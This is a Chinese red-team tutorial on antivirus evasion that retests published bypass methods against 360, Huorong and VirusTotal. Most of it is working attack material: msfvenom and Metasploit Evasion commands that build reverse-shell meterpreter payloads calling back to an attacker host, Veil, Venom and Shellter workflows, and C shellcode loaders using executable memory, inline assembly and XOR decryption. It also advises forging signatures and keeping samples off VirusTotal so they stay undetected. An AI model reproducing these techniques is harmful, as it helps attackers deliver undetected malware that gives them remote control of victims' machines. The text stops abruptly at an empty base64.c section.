# 内网渗透-免杀

## 杀软原理

可执行文件存在的两种状态及检测方式：

- 未执行时在硬盘上的状态（静态检测）
- 执行后加载进内存的状态（动态监测）

杀软的基本等级：

- 无害：无任何可疑行为，无任何特征命中病毒特征
- 可疑：存在可疑行为，例如操作注册表、打开Powershell、修改用户、操作敏感文件等
- 有害：特征命中病毒特征

### 静态检测

静态检测是在不实际运行程序的情况下进行的分析，大部分的静态检测对象是针对特定版本的源代码，也有些静态程序分析的对象是目标代码。

静态检测针对样本文件在硬盘上的状态进行检测：

- 样本Hash检测：此类检测会对文件整体以及各个节段进行Hash计算，而后对比是否存在于特征病毒库中，这是最早期的检测方法。对于Hash检测，在源码中修改一下变量名，或在编译完成之后，通过二进制查看器修改某一不重要的字节码，即可改变整个文件的Hash。
- 特征码检测：由于样本Hash检测的缺点，特征码会提取文件中部分关键字节码作为特征进行检测，字节码可以是硬编码的IP、域名、互斥体名称、加密秘钥或部分关键流程代码。杀软会扫描存在磁盘上的镜像文件，如果满足特征码，就识别为恶意软件。
- 黑白名单检测：对于一些系统进程或是杀软进程可能会默认加白，这样即便有些恶意行为，也不会被查杀。

通常静态检测会识别代码中存在的函数：

- Windows API函数：尤其是与内存、堆、线程相关的函数，例如virualalloc、rtlmovememory、ntcreatthread等。
- 编程语言关键词：cmd等关键词，例如Python中的subprocess.popen("cmd /c")

常见的绕过思路：

- 绕过静态检测的方式通常有多次加密、内存加载执行、加壳改壳、添加/替换资源、加密Shellcode等

常用的静态检测平台：

- https://www.virustotal.com/，注意：Virustotal是国外平台，请谨慎操作，最好不要直接上传文件，建议仅校验并检查MD5是否为恶意文件。

### 动态检测

动态检测针对样本文件内存中的状态进行检测：

- 内存特征码检测：对于静态文件特征码来说，可以将shellcode做多次加密，完全抹掉其原本特征，降低杀软的报毒率。但是当进入内存需要执行代码时，shellcode需要完全解密，这时候杀软只需要遍历内存，根据特征码进行查杀即可。
- 敏感API检测（HOOK）：在关键的入口或道路进行监控，如果单次或多次触发警告，比如读取并修改了其他进程的内存，或在其他进程中开了个远程线程将触发告警。对于不同杀软的不同策略，将根据调用顺序、调用源、参数判断是否是正常调用。
- 敏感行为检测：实现一个功能，不一定非要用某一个固定的接口，因此，实现一个读写内存操作，单检测一个API是无效的。此时，只要对象触发了某种行为，在其他进程中开了线程，那么就判定为恶意行为。常见的病毒恶意行为：
  - 注册表操作：添加启动项、添加服务。
  - 文件操作：写入文件、读取系统文件、删除文件、移动文件。
  - 进程操作：杀死进程、创建进程。
  - 用户操作：添加用户、删除用户、删除用户。
  - 其他操作：注入、劫持等。

常见的绕过思路：

- 绕过动态检测的方式通常是白名单调用敏感行为，再导入恶意内容

常用的动态检测平台：

- https://s.threatbook.cn/

### 流量检测

流量检测针对恶意程序在网络通讯流量层面上的状态进行检测：

- 结构特征：此类特征一般是指已知远控的恶意程序心跳包，比如CS beacon心跳包特征，会按照攻击者设置的频率发送固定结构固定内容的数据包以证明存活。
- 内容特征：此类特征一般是指各类漏洞的exp流量包特征、冰蝎、哥斯拉等流量特征，对于此类流量可以编写流量规则进行过滤检测，比如suricata规则、wireshark规则等。
- IP/域名/证书匹配：对于数据包中的ip域名等信息，链接威胁情报平台查询是否存在恶意行为，比如扫描、用作C2回连或网站挂马等，对于此类流量可以选择弹窗告警或直接阻断。

常见的绕过思路：

- 绕过流量检测的方式通常有TCP分段传输、内容加密、使用合法证书等

### 云查杀

云查杀的不同点在于它的病毒库是放在服务器端的，而不是本地客户端，只要联网，病毒库就会同步更新，病毒库更加强大。

当开着杀软的云查杀的时候，有时候刚开始没报病毒，但过一会就提示病毒了。

## 免杀原理

### 静态免杀

#### 修改特征码

特征码是能够识别一个程序的不大于64字节的字符。

修改特征码是在不改变程序运行效果的前提下，更改其特征码。

修改特征码最重要的是定位特征码，但是定位了特征码修改后并不代表程序就能正常运行，费时费力，由于各个杀软厂商的特征库不同，所以一般也只能对一类的杀软起效果。虽然效果不好，但有时候在没有源码的情况下可以一用。

#### 花指令免杀

花指令其实就是一段毫无意义的指令，也可以称之为垃圾指令。花指令是否存在对程序的执行结果没有影响，所以它存在的唯一目的就是阻止反汇编程序，或对反汇编设置障碍。

为一个程序添加一段花指令之后，程序的部分偏移会受到影响，如果反病毒软件不能识别这段花指令，那么它检测特征码的偏移量会整体位移一段位置，也就无法正常检测木马了。

#### 加壳免杀

软件加壳其实也可以称为软件加密（或软件压缩），只是加密（或压缩）的方式与目的不一样。壳就是软件所增加的保护，并不会破坏里面的程序结构，当我们运行这个加壳的程序时，系统首先会运行程序里的壳，然后由壳将加密的程序逐步还原到内存中，最后运行程序。

加壳能够掩盖特征码，特别是对于不开源的PE文件，加壳可以绕过很多特征码识别。但是壳也有自己的特征，主流的壳例如VMP、Themida等，被检测出将直接报毒。

可以用一些冷门的加密壳，或基于开源压缩壳做二次开发。

加壳工具：

- ASPack
- UPX

### 动态免杀

#### API免杀

- 替换API：杀软不可能拦截所有API，可以使用相同功能的API进行替换，例如`MoveFileEx`替换`MoveFile`。

- 重写API：逆向后完全重写系统API功能，实现对应功能的API。

- 底层API：寻找更底层的API进行调用，绕过拦截，例如NT函数。或者通过DeviceloControl函数调用驱动功能来完成API功能，模拟系统调用。

#### 内存免杀

在执行外壳代码时，要先将原软件解密，并放到内存里，然后再通知CPU执行。加壳时，需要加一个混淆程序原有代码的壳，才能躲过杀软查杀。

#### 二次编译

Metasploit的Msfvenom提供了多种格式的Payload和Encoder，生成的Shellcode也为二次加工提供了很大便利。

Shikata_ga_nai是MSF中唯一的评价是excellent的编码器，这种多态编码技术使得每次生成的攻击载荷文件是不一样的，编码和解码也都是不一样的，还可以利用管道进行多重编码进行免杀。

目前Msfvenom的Encoder特征基本都进入了杀软的漏洞库，很难实现单一Encoder编码而绕过杀软，所以对Shellcode进行进一步修改编译成了MSF免杀的主流。有很多借助于C、C#、python等语言对Shellcode进行二次编码从而达到免杀的效果。

#### 分离免杀

例如Payload分离免杀和Webshell分离免杀，将Shellcode和加载器分离，实现简单，但效果不错。

#### 资源修改

有些杀软会设置有扫描白名单，比如之前把程序图标替换为360安全卫士图标就能过360的查杀。

- 添加资源：使用ResHacker将正常软件的资源加入到恶意软件，例如图片、版本信息、对话框等
- 替换资源：使用ResHacker替换无用的资源，例如版本等
- 添加签名：使用签名伪造工具，将正常软件的签名信息添加到恶意软件

# 免杀技术研究

## Bypass一览表（2020年）


## Bypass一览表（2022年）

VirusTotal对应杀软及名称：

- 卡巴：Kaspersky
- 微软：Microsoft
- 瑞星：Rising
- 金山：Kingsoft
- 江民：Jiangmin
- 趋势：TrendMicro

| 序号 | 免杀方法            | 2020年VT | 2022年VT | 360  | QQ   | 火绒 | 卡巴 | McAfee | 微软 | Symantec | 瑞星 | 金山 | 江民 | 趋势 |
| ---- | ------------------- | -------- | -------- | ---- | ---- | ---- | ---- | ------ | ---- | -------- | ---- | ---- | ---- | ---- |
| 1    | 未免杀处理          | 53/69    | 51/69    |      |      |      |      |        |      |          |      | √    | √    |      |
| 2    | msf自编码           | 51/69    | 48/67    |      |      |      |      |        |      |          |      | √    | √    |      |
| 3    | msf自捆绑           | 39/69    | 15/69    |      | √    | √    | √    |        | √    | √        |      | √    | √    | √    |
| 4    | msf捆绑+编码        | 35/68    | 16/69    |      | √    | √    | √    |        | √    | √        |      | √    | √    | √    |
| 5    | msf多重编码         | 45/70    | 28/67    |      | √    | √    |      | √      | √    | √        |      | √    | √    | √    |
| 6    | Evasion模块exe      | 42/71    | 43/69    |      | √    |      |      |        |      |          |      | √    | √    | √    |
| 7    | Evasion模块hta      | 14/59    | （None） |      |      |      |      |        |      |          |      |      |      |      |
| 8    | Evasion模块csc      | 12/71    | 33/69    |      | √    |      | √    |        |      | √        |      | √    | √    | √    |
| 9    | Veil原生exe         | 44/71    | 44/69    |      |      |      |      |        |      |          |      | √    |      | √    |
| 10   | Veil+gcc编译        | 23/71    | 11/69    |      | √    |      | √    | √      | √    | √        | √    | √    | √    | √    |
| 11   | Venom生成exe        | 19/71    | 35/68    |      | √    |      |      |        | √    |          |      | √    |      | √    |
| 12   | Venom生成dll        | 11/71    | （None） |      |      |      |      |        |      |          |      |      |      |      |
| 13   | Shellter生成exe     | 7/69     | 12/65    |      | √    |      | √    | √      |      | √        | √    | √    | √    | √    |
| 14   | msf生成exe          | -        | 51/69    |      |      |      |      |        |      |          |      | √    | √    |      |
| 15   | C/C++2：动态内存    | 24/71    | 36/69    |      | √    |      |      |        |      |          |      | √    |      | √    |
| 16   | C/C++3：嵌入汇编    | 12/71    | 36/69    |      | √    |      |      |        |      |          |      | √    |      | √    |
| 17   | C/C++4：强制转换    | 9/70     | 34/68    |      | √    |      |      |        |      |          |      | √    |      | √    |
| 18   | C/C++5：汇编花指令  | 12/69    | 37/69    | √    | √    |      |      |        |      |          |      | √    |      | √    |
| 19   | C/C++6：XOR加密     | 15/71    | 21/69    |      | √    |      |      |        | √    |          |      | √    |      | √    |
| 20   | C/C++7：base64加密1 | 28/69    | 21/68    | √    | √    |      | √    |        | √    |          |      | √    | √    | √    |
| 21   | C/C++8：base64加密2 | 28/69    | 17/67    | √    | √    |      | √    |        | √    |          |      | √    | √    | √    |

## 复现环境（2022年）

时间：2022.05

攻击机：192.168.174.128

免杀方法：

- 此处仅介绍msf、Evasion、Veil、Venom、C/C++ Shellcode，其余方法参见原po：https://github.com/TideSec/BypassAntiVirus

原po各杀软版本：

- 360杀毒版本5.0.0.8160(2019.12.12)
- 火绒版本5.0.33.13(2019.12.12)
- 360安全卫士12.0.0.2001(2019.12.17)

本文各杀软版本：

- 火绒版本5.0.68.2(2022.05.26)
- 360安全卫士13.0.0.2003(2022.05.26)

测试平台：

- Virustotal，以下简称VT。VT查杀率代表静态查杀能力。

【注意】

- 如果是自己做免杀，建议测试机不要连互联网，更不要上传到virustotal.com类似的平台上。

- 不要上传！
- 不要上传！
- 不要上传！
- 上传一次以后，你自己辛辛苦苦写的免杀可能就不再免杀了。

## Metasploit自带免杀

Payload均使用MSF的windows/meterperter/reverse_tcp模块生成。

攻击机MSF监听6666端口：

```
msf6 > use exploits/multi/handler
msf6 exploit(multi/handler) > set LHOST 192.168.174.128
msf6 exploit(multi/handler) > set LPORT 6666
msf6 exploit(multi/handler) > run
```

### 原生态payload(VT查杀率51/69)

MSF生成原始payload：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.174.128 LPORT=6666 -f exe -o /mnt/hgfs/Share/payload1.exe
```



360和火绒都能查杀。

在virustotal.com上查杀率为51/69（原po为53/69）。

360：


火绒：



VT查杀成功：



VT查杀失败：



### msf自编码免杀(VT查杀率48/67)

使用`msfvenom --list encoders`可查看所有编码器。

评级最高的两个encoder为cmd/powershell_base64和x86/shikata_ga_nai，其中x86/shikata_ga_nai也是免杀中使用频率最高的一个编码器。

使用`x86/shikata_ga_nai`生成payload，参数`-i`为编码次数，使用`-b`参数去掉payload中的空字符：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.174.128 LPORT=6666 -e x86/shikata_ga_nai -b "\x00" -i 15  -f exe -o /mnt/hgfs/Share/payload2.exe
```



由于shikata_ga_nai编码技术是多态的，也就是说每次生成的payload文件都不一样，有时生成的文件会被查杀，有时却不会。当然这个也和编码次数有一定关系，编码次数好像超过70次就经常生成出错，但是编码次数多并不代表免杀能力强。

360和火绒都能查杀。

在virustotal.com上查杀率为48/67（原po为51/69）。

360：


火绒：



VT查杀成功：



VT查杀失败：



### msf自捆绑免杀(VT查杀率15/69)

在生成payload时可以使用捆绑功能，使用msfvenom的`-x`参数可以指定一个自定义的可执行文件作为模板,并将payload嵌入其中，`-x`后面跟对应文件路径就可以。

这里使用一个正规的`putty.exe`作为被捆绑测试软件。

生成payload命令如下：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.174.128 LPORT=6666  -x putty.exe  -f exe -o /mnt/hgfs/Share/payload3.exe
```



生成的两个文件对比，大小完全一样。能否免杀也和被捆绑exe有一定关系，可以选微软的一些工具作为模板exe程序。



360能查杀，火绒不能查杀。但是识别时间比前两种方法久一些（原po火绒也能查杀）。

在virustotal.com上查杀率为15/69（原po为39/69）。

360：


VT：




### msf自捆绑+编码(VT查杀率16/69)

将上面的编码和捆绑两种方法结合一下进行尝试：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.174.128 LPORT=6666 -e x86/shikata_ga_nai -x putty.exe  -i 15 -f exe -o /mnt/hgfs/Share/payload4.exe
```



与上一种方法对比，大小完全一样。



可修改-i编码次数，编码次数越多，生成的payload越可能免杀，经测试，编码5次和6次可免杀360。

360能查杀，火绒不能查杀。但是识别时间比前两种方法久一些（原po火绒动态静态均能查杀，而360不会报毒）。

在virustotal.com上查杀率为16/69（原po为35/69）。

360：



VT：



### msfvenom多重编码(VT查杀率28/67)

msfvenom的encoder编码器可以对payload进行一定程度免杀，同时还可以使用msfvenom多重编码功能，通过管道，让msfvenom用不同编码器反复编码进行混淆。

如下命令，使用管道让`msfvenom`对攻击载荷多重编码，先用`shikata_ga_nai`编码20次，接着来10次的`alpha_upper`编码，再来10次的`countdown`编码，最后才生成以`putty.exe`为模板的可执行文件。

```
msfvenom  -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 20 LHOST=192.168.174.128 LPORT=6666 -f raw | msfvenom -e x86/alpha_upper -i 10 -f raw | msfvenom -e x86/countdown -i 10 -x putty.exe -f exe -o /mnt/hgfs/Share/payload5.exe
```

如果报错`Error: You must select an arch for a custom payload`，则添加参数：

```
-a x86 --platform windows
```



还有更多重编码姿势：

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp -e x86/call4_dword_xor -i 14 LHOST=192.168.74.133 LPORT=5110 -f raw | msfvenom -a x86 --platform windows -e x86/countdown -i 13 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -b "&" -i 4 -f raw | msfvenom -a x86 --platform windows -e cmd/powershell_base64 -i 10 -x putty.exe -k -f exe > payload6.exe
```

经过测试，发现使用的编码类型越多，免杀率可能会降低，猜测是因为各种编码引入了更多的特征码。同时生成的payload也很可能无法正常执行，这个也和被捆绑程序有一定关联。

360可以查杀，火绒不能查杀。

在virustotal.com上查杀率为28/67（原po为45/70），Bypass了McAfee。

360：


VT：




## Metasploit Evasion免杀

2019年1月，metasploit升级到了5.0，引入了一个新的模块叫Evasion模块，官方宣称这个模块可以创建反杀毒软件的木马。evasion有以下几个模块,可以使用`show evasion`进行查看。

msf6 evasion模块：



### 生成exe(VT查杀率43/69)

使用`use windows/windows_defender_exe`进行生成payload

```
msf6 > use windows/windows_defender_exe
msf6 evasion(windows/windows_defender_exe) > set filename payload.exe
msf6 evasion(windows/windows_defender_exe) > set payload windows/meterpreter/reverse_tcp
msf6 evasion(windows/windows_defender_exe) > set LHOST 192.168.174.128
msf6 evasion(windows/windows_defender_exe) > set LPORT 6666
msf6 evasion(windows/windows_defender_exe) > run
```



不打开杀软的情况下，可正常上线：

```
handler -H 192.168.174.128 -P 6666 -p windows/meterpreter/reverse_tcp
```

打开杀软，360和火绒都能查杀。

在virustotal.com上查杀率为43/69（原po为42/71）。

360：


火绒：



VT：



### 生成hta(VT查杀率14/59)

用另外一个evasion模块`windows/windows_defender_js_hta`生成一下，360同样被杀。

```
msf6 > use windows/windows_defender_js_hta
msf6 evasion(windows/windows_defender_exe) > set filename payload1.exe
msf6 evasion(windows/windows_defender_exe) > set payload windows/meterpreter/reverse_tcp
msf6 evasion(windows/windows_defender_exe) > set LHOST 192.168.174.128
msf6 evasion(windows/windows_defender_exe) > set LPORT 6666
msf6 evasion(windows/windows_defender_exe) > run
```

但是火绒静态+行为查杀都没发现问题，可正常上线。

在virustotal.com上查杀率为14/59。不过在线查毒时显示360也没查出来，但本地测试时却是能查出来的，所以在线查杀还是不太精准的。

复现时该模块生成的可执行无法运行。

### 生成install_util(VT查杀率33/69)

evasion还提供了其他几个模块，比如`windows/applocker_evasion_install_util`

创建payload

```
msf6 > use windows/applocker_evasion_install_util
msf6 evasion(windows/applocker_evasion_install_util) > set payload windows/meterpreter/reverse_tcp
msf6 evasion(windows/applocker_evasion_install_util) > set lhost 192.168.174.128
msf6 evasion(windows/applocker_evasion_install_util) > set lport 6666
msf6 evasion(windows/applocker_evasion_install_util) > run

[+] install_util.txt stored at /Users/xysoul/.msf4/local/install_util.txt
[*] Copy install_util.txt to the target
[*] Compile using: C:\Windows\Microsoft.Net\Framework\[.NET Version]\csc.exe /out:install_util.exe install_util.txt
[*] Execute using: C:\Windows\Microsoft.Net\Framework\[.NET Version]\InstallUtil.exe /logfile= /LogToConsole=false /U install_util.exe
```

根据说明，需要使用csc.exe进行编译一下，然后用`InstallUtil.exe`加载文件。

csc.exe是微软.NET Framework 中的C#语言编译器，本机安装了.net后就可以找到该文件。用vs2017里的csc.exe进行编译，生成install_util.exe。

```
> C:\Windows\Microsoft.Net\Framework\v2.0.50727\csc.exe /out:install_util.exe install_util.txt
```



直接执行`install_util.exe`，无法上线，并且360查杀报毒。

根据说明，需要使用`InstallUtil.exe /logfile= /LogToConsole=false /U install_util.exe`来加载，才能成功上线。

```
> C:\Windows\Microsoft.Net\Framework\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U install_util.exe
```

注意的是，如果生成的是32位的payload，就要用32位的.net下的InstallUtil来加载，否则文件会无法执行。



360和火绒都能查杀（原po静态查杀都没有问题，执行时360行为查杀会报毒）。

在virustotal.com上查杀率为33/69（原po为12/71）。

360：




火绒：



VT：



## Veil免杀

Veil、Venom和Shellter是三大老牌免杀工具。

Veil-Evasion是一个用python写的免杀框架，可以将任意脚本或一段shellcode转换成Windows可执行文件，还能利用Metasploit框架生成相兼容的Payload工具，从而逃避了常见防病毒产品的检测。

### 安装Veil

推荐Docker方式进行安装。镜像地址：

```
https://hub.docker.com/r/mattiasohlsson/veil/
```

拉取veil镜像：

```
docker pull mattiasohlsson/veil
```

拉取成功后，执行：

```
docker run -it -v /tmp/veil-output:/var/lib/veil/output:Z mattiasohlsson/veil
```

`-v /tmp/veil-output:/var/lib/veil/output:Z`是将宿主机的`/tmp/veil-output`目录映射到docker里面，这样veil生成的payload可以直接在宿主机里使用。

之后再进入镜像可以在启动镜像后使用下面命令：

```
docker exec -it <container id> /bin/bash
```

执行`veil`命令可启动,版本为3.1.1。

veil有两个免杀的工具，Evasion和Ordnance。Ordnance可生成在Veil-Evasion中使用的shellcode，Evasion是用做文件免杀。一般选择Evasion。

```
Veil>: use 1                   #选择Evasion功能
Veil/Evasion>: list            #查看payload列表
```

使用`list`可以看到到41种stager。



推荐使用以go和ruby语言encode的编码方式。像python这类的与用户有较高的交互就容易被查杀。

veil原理可以参考：https://xz.aliyun.com/t/4191

### 使用veil直接生成exe(VT查杀率44/69)

veil可以直接生成支持msf的payload，我们先试一下看看效果。

使用go语言生成msf的payload

```
Veil/Evasion>: use 16
```

设置好msf的监听主机和端口：

```
[go/meterpreter/rev_tcp>>]: set lhost 192.168.174.128
[go/meterpreter/rev_tcp>>]: set lport 6666
[go/meterpreter/rev_tcp>>]: generate
```



设定好生成的payload的名称，例如payload1：



一系列编码编译之后，就生成payload了：



因为之前已经做过Docker目录映射，所以在宿主机的`/tmp/veil-output/compiled/`目录可直接看到生成的exe文件。

在msf中监听：

```
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.174.128
msf6 exploit(multi/handler) > set lport 6666
msf6 exploit(multi/handler) > exploit
```

在测试主机执行`payload1.exe`，360和火绒均可以查杀（原po在msf中可上线，360和火绒均不报毒）。

在virustotal.com上查杀率为44/69（原po为44/71）。

360：



火绒：



VT：



### 使用veil+mingw-w64(VT查杀率11/69)

先用veil生成shellcode

```
# veil
Veil> use 1								# 选择使用 Veil-Evasion 模块
Veil/Evasion> use 7						# 选择payload  c/meterpreter/rev_tcp.py
[cs/meterpreter/rev_tcp>>] set LHOST 192.168.174.128
[cs/meterpreter/rev_tcp>>] set LPORT 6666
[cs/meterpreter/rev_tcp>>] generate
```



输入生成文件名为`c_msf`：



先生成一个可以被 msf 利用的 `c_msf.c` 然后用mingw-w64 来编译。

mingw-w64的安装可参考：https://zhuanlan.zhihu.com/p/76613134

若编译报错，可以尝试指定库，生成可执行文件a.exe：

```
gcc c_msf.c -lws2_32
```



360和火绒均可以查杀（原po全程开启360卫士和杀毒以及火绒，编译、运行、上线都没有问题）。

在virustotal.com上查杀率为11/69（原po为23/71）。Bypass了McAfee。

360：



火绒：



VT：



## Venom免杀

Venom利用msfvenom（metasploit）生成不同的格式的shellcode，如（c | python | ruby | dll | msi | hta-psh）等，然后将生成的shellcode注入一个模板（例如：python），并使用类似gcc、mingw32或pyinstaller之类的编译器生成可执行文件。

Venom的一些功能还会直接调用`Veil-Evasion.py`，`unicorn.py`，`powersploit.py`等来直接创建免杀程序，避免重复造轮子。

### 安装Venom

venom安装和运行必须是在图形界面下，如果是ssh终端连接到kali进行连接是不行的。venom依赖的软件比较多，所以安装出现问题是很正常的。

```
Zenity | Metasploit | GCC (compiler) | Pyinstaller (compiler)
mingw32 (compiler) | pyherion.py (crypter) | wine (emulator)
PEScrambler.exe (PE obfuscator) | apache2 (webserver)| winrar (wine)
vbs-obfuscator (obfuscator) | avet (Daniel Sauder) | shellter (KyRecon)
ettercap (MitM + DNS_Spoofing) | encrypt_PolarSSL (AES crypter)
```

从github上拖到本地

```
git clone https://github.com/r00t-3xp10it/venom.git
```

修改文件执行权限

```
cd venom
sudo chmod -R +x *.sh
sudo chmod -R +x *.py
```

安装依赖库和软件

```
cd aux
sudo ./setup.sh
```

运行venom，代码高亮有些问题，但是问题不大，还是可以用的

```
sudo ./venom.sh
```



### venom生成exe(VT查杀率35/68)

启动venom:`sudo ./venom.sh`，然后选择windows，也就是2，然后会列出所有windows可用的20个agent。



支持的种类还是比较全面的，shellter、avet等免杀工具都内置在里面了，而且支持很多种类似的payload格式。

先生成一个最简单直接的，第4个模块，通过C编译EXE程序。

在输入4之后，会弹出一个框让你输入ip地址，这个就是你msf监听主机的地址：



然后输入端口号之后，选择payload，选择最常规的`windows/meterperter/reverse_tcp`。

输入一个文件名，例如notepad。



然后在编译和生成exe的过程中，会弹出来两个选项框，一般默认就行。

之后会提示已经生成，并询问你如何分发payload，直接在测试机上执行就行了，可见output文件夹已经生成了notepad.exe。



360和火绒均可以查杀（原po360静态检测没问题，但行为检测能查杀出为病毒；火绒则静态+动态都没有检测到）。

在virustotal.com上查杀率为35/68（原po为19/71）。

360：


火绒：



VT：



### venom生成dll(VT查杀率11/70)

选择windows之后，在agent中选择第1个，生成dll。


后面的操作和上面那个差不多，然后就能看到生成了`notepad.dll`文件。

原po将文件拷贝到测试机上，命令行中执行`rundll32.exe notepad.dll,main`，可动静态免杀过360和火绒。msf正常上线。在virustotal.com上查杀率为11/71。

本文复现时出现问题：



## Shellter免杀

注意：

- shellter目前只能注入32位的可执行文件
- shellter需要管理员权限运行

### 安装Shellter

ubuntu系统中apt安装：

```
apt-get update
apt-get install shellter
dpkg --add-architecture i386 && apt-get update && apt-get install wine32
```

kali中不是很好用，windows中手动下载手动下载：

官方下载站点`https://www.shellterproject.com/download/`，下载后解压，无需安装，cmd下可直接使用。



### 生成payload（VT免杀率7/69)

需要提前准备一个PE文件作为被注入程序。用之前选的`putty.exe`来进行测试。

必须使用32位PE文件，下载一个32位putty.exe：



之后程序会把`putty.exe`进行备份，因为生成的payload会自动覆盖原来的`putty.exe`。

但`putty-32.exe`生成报错，换了一个32位可执行文件`winrar.exe`：



选项`Enable Stealth Mode`，是否启用隐身模式，启用后免杀效果会变差，建议不启用。

还是选择`windows/meterpreter/reverse_tcp`作为payload



全程自动化生成，最终的生成文件会替换原来的`winrar.exe`。

通过对比可发现程序稍微变大了

在msf中使用`handler -H 192.168.174.128 -P 6666 -p windows/meterpreter/reverse_tcp`进行监听

360和火绒均可查杀（原po执行360和火绒均可免杀，msf正常上线）。

在virustotal.com上查杀率为12/65，Bypass了卡巴、瑞星（原po为7/69，卡巴、瑞星、微软三个都没bypass）。

360：



火绒：



VT：


## C、C++加载shellcode

以上很多方法都是使用msfvenom生成shellcode，然后对shellcode进行混淆、编码等各种处理，最终再使用各种语言进行编译或加载。而被用到的最多的语言就是C/C++、C#和python。

C/C++加载shellcode手工编译的方法，一般分为两种方式：

1. C/C++源码+shellcode直接编译，其中对shellcode的执行可以使用函数指针执行、汇编指令执行、申请动态内存等方式，且shellcode可进行一些加密混淆处理；比如免杀工具veil和Venom都是使用了类似的方法。

2. 使用加载器加载C/C++代码，如shellcode_launcher之类。

### 方法1 msf直接生成exe（VT免杀率51/69）

这是最简单的一种加载shellcode的方法，直接使用msfvenom生成c语言的shellcode，为了提高免杀效果，使用了`shikata_ga_nai`编码器。

```
msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=192.168.174.128 lport=6666  -f exe -o shellcode1.exe
```



在msf中进行监听：

```
msf6 > use multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set LHOST 192.168.174.128
msf6 > set LPORT 6666
msf6 > set EnableStageEncoding true
```

然后执行生成的`shellcode1.exe`，msf中可正常上线：



360和火绒均可查杀，在virustotal.com上查杀率为51/69。

360：



火绒：



VT：



### 方法2 申请动态内存加载（VT免杀率36/69）

下面的代码会申请一段动态内存，然后加载shellcode。

```c
#include <Windows.h>
#include <stdio.h>
#include <string.h>

#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") //windows控制台程序不出黑窗口

unsigned char shellcode[] =
"shellcode";


void main()

{
	// 原po此处内存报错，已修改
    LPVOID Memory;

    Memory=VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    memcpy(Memory, shellcode, sizeof(shellcode));

    ((void(*)())Memory)();

}
```

visual studio 2019进行编译，关闭杀软，msf中可正常上线：



打开杀软，360和火绒均可查杀（原po火绒静态和动态都可查杀，360杀毒和卫士没有反应）。

virustotal.com上查杀率为36/69（原po为24/71）。

受控机没有C环境，执行时缺少`VCRUNTIME140D.dll`和`ucrtbased.dll`，需要手动安装。



360：


火绒：



VT：



### 方法3 嵌入汇编加载（VT免杀率36/69）

```c
#include <windows.h>
#include <stdio.h>
#pragma comment(linker, "/section:.data,RWE")
unsigned char shellcode[] ="";

void main()
{

        __asm
    {

        mov eax, offset shellcode
        jmp eax

    }
}
```

在vs2019中编译执行，关闭杀软，msf中可正常上线。

打开杀软，火绒和360均可查杀（原po火绒静态可查杀但是行为检测没报警，360杀毒和卫士没有反应，直接上线）。

virustotal.com上查杀率为36/69（原po为12/71）。

360：



火绒：



VT：


### 方法4 强制类型转换（VT免杀率34/68）

```
#include <windows.h>
#include <stdio.h>

unsigned char shellcode[] ="";

void main()
{
   ((void(WINAPI*)(void))&shellcode)();
}
```

打开杀软测试，360和火绒均可查杀，但360是在上线后几分钟后才检测出来的（原po静态+动态都没问题，可正常上线）。

virustotal.com上查杀率为34/68（原po为9/70）。



### 方法5 汇编花指令(VT免杀率37/69)

```c
#include <windows.h>
#include <stdio.h>
#pragma comment(linker, "/section:.data,RWE")
unsigned char shellcode[] ="";

void main()
{
    __asm
    {

        mov eax, offset shellcode
        _emit 0xFF  
        _emit 0xE0

    }
}
```

打开杀软，火绒可查杀，**360不可查杀**（原po火绒静态可查杀但是行为检测没报警，360杀毒和卫士没有反应，直接上线）。

virustotal.com上查杀率为37/69（原po为12/69）。



### 方法6 xor加密（VT免杀率21/69）

需要使用一个工具`https://github.com/Arno0x/ShellcodeWrapper`，原项目为python2，在此基础上修改了一个python3版本[ShellcodeWrapper](https://github.com/Threekiii/Awesome-Redteam/tree/master/scripts/ShellcodeWrapper)。

先用msfvenom生成一个raw格式的shellcode

```
msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=192.168.174.128 lport=6666  -f raw > shellcode.raw
```

在`ShellcodeWrapper`文件夹中执行下面命令，其中`threekiii`为自己设置的key。

```
python shellcode_encoder.py -cpp -cs -py shellcode.raw threekiii xor
```

生成了三个文件，一个为C++源码，也是下面要用到的，一个为C#源码，可以使用csc.exe进行加载，还有一个py文件，可直接执行也可以编译成py-exe执行。



其中`encryptedShellcodeWrapper_xor.cpp`文件中的C++源码如下，稍作修改，删除依赖库：

```c
/*
Author: Arno0x0x, Twitter: @Arno0x0x
*/

// 删除#include "stdafx.h"
#include <windows.h>
#include <iostream>

int main(int argc, char **argv) {

    // Encrypted shellcode and cipher key obtained from shellcode_encoder.py
    char encryptedShellcode[] = "";
    char key[] = "tidesec";
    char cipherType[] = "xor";

    // Char array to host the deciphered shellcode
    char shellcode[sizeof encryptedShellcode];


    // XOR decoding stub using the key defined above must be the same as the encoding key
    int j = 0;
    for (int i = 0; i < sizeof encryptedShellcode; i++) {
        if (j == sizeof key - 1) j = 0;

        shellcode[i] = encryptedShellcode[i] ^ key[j];
        j++;
    }

    // Allocating memory with EXECUTE writes
    void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // Copying deciphered shellcode into memory as a function
    memcpy(exec, shellcode, sizeof shellcode);

    // Call the shellcode
    ((void(*)())exec)();
}
```

vs2019编译执行，关闭杀软，msf中可正常上线：



打开杀软，360和火绒均可查杀，其中360结果为“具有木马特征程序”（原po火绒静态可查杀但是行为检测没报警，360杀毒和卫士没有反应，直接上线）。

virustotal.com上查杀率为21/69（原po为15/71）。

360：



VT：



### 方法7 base64加密1（VT免杀率21/68）

需要两个文件，`base64.c`和`base64.h`

`base64.c`文件内容：

